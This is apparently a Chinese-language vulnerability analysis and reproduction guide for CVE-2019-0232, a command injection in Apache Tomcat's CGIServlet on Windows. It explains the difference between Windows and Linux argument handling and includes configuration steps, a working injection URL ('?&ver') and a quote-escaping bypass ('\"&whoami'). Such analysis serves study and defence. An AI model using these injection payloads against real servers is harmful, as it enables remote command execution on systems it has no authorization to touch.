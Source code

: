 # CVE-2019-0232 Tomcat rce

### 一、漏洞简介

该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。

该漏洞只影响Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

### 二、漏洞影响

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

### 三、复现过程

**漏洞分析**

漏洞相关的代码在 tomcat\java\org\apache\catalina\servlets\CGIServlet.java 中，CGIServlet提供了一个cgi的调用接口，在启用 enableCmdLineArguments 参数时，会根据RFC 3875来从Url参数中生成命令行参数，并把参数传递至Java的 Runtime 执行。 这个漏洞是因为 Runtime.getRuntime().exec 在Windows中和Linux中底层实现不同导致的。下面以一个简单的case来说明这个问题，在Windows下创建arg.bat：


```bash
rem arg.bat
echo %*
```

并执行如下的Java代码


```bash
String [] cmd={"arg.bat", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd);
```

在Windows下会输出 arg 和 dir 命令运行后的结果。同样的，用类似的脚本在Linux环境下测试：


```bash
# arg.sh
for key in "$@"
do
    echo '$@' $key
done
String [] cmd={"arg.sh", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd);
```

此时的输出为


```bash
$@ arg
$@ &
$@ dir
```

导致这种输出的原因是在JDK的实现中 Runtime.getRuntime().exec 实际调用了 ProcessBuilder ，而后 ProcessBuilder 调用 ProcessImpl使用系统调用 vfork ，把所有参数直接传递至 execve。

用 strace -F -e vfork,execve java Main 跟踪可以看到上面的Java代码在Linux中调用为


```bash
execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */])
```

而如果跟踪类似的PHP代码 system('a.sh arg & dir'); ，得到的结果为


```bash
execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */])
```

所以Java的 Runtime.getRuntime().exec 在CGI调用这种情况下很难有命令注入。而Windows中创建进程使用的是 CreateProcess ，会将参数合并成字符串，作为 lpComandLine 传入 CreateProcess 。程序启动后调用 GetCommandLine 获取参数，并调用 CommandLineToArgvW 传至 argv。在Windows中，当 CreateProcess 中的参数为 bat 文件或是 cmd 文件时，会调用 cmd.exe , 故最后会变成 cmd.exe /c "arg.bat & dir"，而Java的调用过程并没有做任何的转义，所以在Windows下会存在漏洞。

除此之外，Windows在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过， 例如 dir "\"&whoami" 在Linux中是安全的，而在Windows会执行命令。

这是因为Windows在处理命令行参数时，会将 " 中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 " ，但是对 \" 的处理有误。同样用 arg.bat 做测试，可以发现这里只输出了 \ 。因此在Java中调用批处理或者cmd文件时，需要做合适的参数检查才能避免漏洞出现。

#### 漏洞复现

笔者使用的复现环境为9.0.12 + JRE 1.8.0。

首先进行CGI相关的配置，在 conf/web.xml 中启用CGIServlet：


```xml
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet>
```

这里主要的设置是 enableCmdLineArguments 和 executable 两个选项。 enableCmdLineArguments 启用后才会将Url中的参数传递到命令行， executable 指定了执行的二进制文件，默认是 perl，需要置为空才会执行文件本身。

同样在 conf/web.xml 中启用cgi的servlet-mapping


```bash
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping>
```

之后修改 conf/context.xml 的 `` 添加 privileged="true"属性，否则会没有权限


```xml
<Context privileged="true">

    
    
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    
    
</Context>
```

然后在 ROOT\WEB-INF 下创建 cgi-bin 目录, 并在该目录下创建一个内容为 echo Content-type: text/html 的 e.bat 文件。

配置完成后，启动tomcat，访问 `http://url:8080/cgi-bin/e.bat?&ver` ，可以看到命令执行成功。

参考链接

https://xz.aliyun.com/t/4875